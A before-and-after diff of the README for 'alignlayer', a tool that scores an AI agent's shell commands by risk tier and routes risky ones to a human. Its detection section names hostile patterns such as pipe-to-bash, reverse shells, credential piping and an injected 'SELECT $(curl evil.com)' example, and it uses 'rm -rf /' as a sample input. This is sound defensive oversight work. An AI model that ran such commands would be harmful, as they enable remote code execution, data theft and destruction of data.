

Before and after one commit to bcoverston/alignlayer, a Markdown page: README.md, the part around one of its changes. Shown at 82% size. GitHub-like rendering; blank space fills up the shorter version.

````diff
--- a/README.md
+++ b/README.md
@@ -17,16 +17,18 @@ Agent decision loop
         |
    before_tool_call hook  <- AlignLayer scores proposed action
         |
-   Heuristic pre-check    <- CLI verb table (fast, deterministic)
+   Heuristic pipeline     <- Exfil detection, dry-run cap, verb table, opaque exec
         |
-   ML scorer              <- k-NN on Siamese embeddings
+   RiskHead MLP           <- 128->64->1 on frozen Siamese embeddings
+        |
+   k-NN fallback          <- Inverse-distance weighted, k=5
         |
    Risk score in [0, 1]
         |
    Low risk  -> execute autonomously
    High risk -> surface interrupt to human
         |
-   after_tool_call hook   <- capture outcome for training
+   after_tool_call hook   <- capture outcome for feedback loop
 ```
 
 ## Risk Tiers
@@ -37,7 +39,7 @@ Seven tiers on a continuous [0, 1] scale:
 |------|------|-----------|---------|
 | T-2 | Adversarial | 0.85-1.00 | Backdoor install, credential exfil, pipe-to-bash |
 | T-1 | Dry-run | 0.08-0.22 | `terraform plan`, `kubectl apply --dry-run` |
-| T0 | Read-only | 0.00-0.15 | `ls`, `kubectl get`, `aws ec2 describe-*` |
+| T0 | Read-only | 0.00-0.15 | `ls`, `kubectl get`, `mysql -e 'SELECT ...'` |
 | T1 | Local-write | 0.20-0.40 | `git commit`, `npm install`, `docker build` |
 | T2 | Destructive-local | 0.35-0.55 | `rm -rf`, `git branch -D`, `docker rmi` |
 | T3 | External | 0.55-0.75 | `git push`, `docker push`, `aws s3 sync` |
@@ -45,19 +47,29 @@ Seven tiers on a continuous [0, 1] scale:
 
 ## Scoring Pipeline
 
-**Layer 1 — CLI verb table** (deterministic):
+**Layer 1 — Exfil/RCE detection** (regex):
+- `curl | bash`, `eval "$(curl ...)"`, reverse shells, credential piping -> T-2 floor
+- Loopback URLs (localhost, 127.0.0.1) exempted
+
+**Layer 2 — Dry-run detection**:
+- `--dry-run`, `--check`, `--simulate`, `terraform plan` -> T-1 cap
+
+**Layer 3 — CLI verb table** (deterministic):
 - `(tool, subcommand)` -> tier floor/ceiling
-- Covers terraform, redis-cli, aws, kubectl, git, npm/yarn
-- Opaque execution (`eval`, `| bash`) -> T2 floor
+- 100+ entries covering: aws, kubectl, git, terraform, docker, helm, redis-cli, nginx, systemctl, brew, pip, npm, curl, sed, xargs, and more
+- SQL-aware: psql, mysql, mariadb, sqlite3, snowsql, duckdb, clickhouse-client, trino, presto, cqlsh, bq, mongosh — read/write discrimination (`SELECT` -> T0, `DROP TABLE` -> T4)
+- Subshell injection guard: `SELECT $(curl evil.com)` bypasses safe-cap
+- Opaque execution (`eval`, `python3 -c`, `| bash`) -> T2 floor
 
-**Layer 2 — k-NN on Siamese embeddings** (ML):
-- Embed command -> 128-dim unit vector via HybridEncoder (char-CNN + word-CNN)
-- Find k=5 nearest neighbors in scored reference corpus (~28K commands)
-- Aggregate risk score and tier
+**Layer 4 — RiskHead MLP** (ML):
+- 128->64->1 MLP on frozen HybridEncoder embeddings
+- O(1) forward pass, trained on 54K labeled commands
 
-**Layer 3 — Heuristic post-processing**:
-- Dry-run flag detection -> T-1 cap
-- Compound command splitting -> score each segment, return worst
+**Layer 5 — k-NN fallback**:
+- Inverse-distance weighted, k=5, on 128-dim Siamese embeddings
+- Only used when RiskHead is unavailable
+
+**Compound commands**: Split on `&&`, `||`, `;`, `|` — score each segment, return worst.
 
 ## Quick Start
 
@@ -72,6 +84,9 @@ make serve
 
 # Or run in background
 make serve-bg
+
+# Score a command
+make score CMD="rm -rf /"
 
 # Run evaluation
 make eval
````
Also changed, not shown: other parts of README.md (+91 -25 lines).
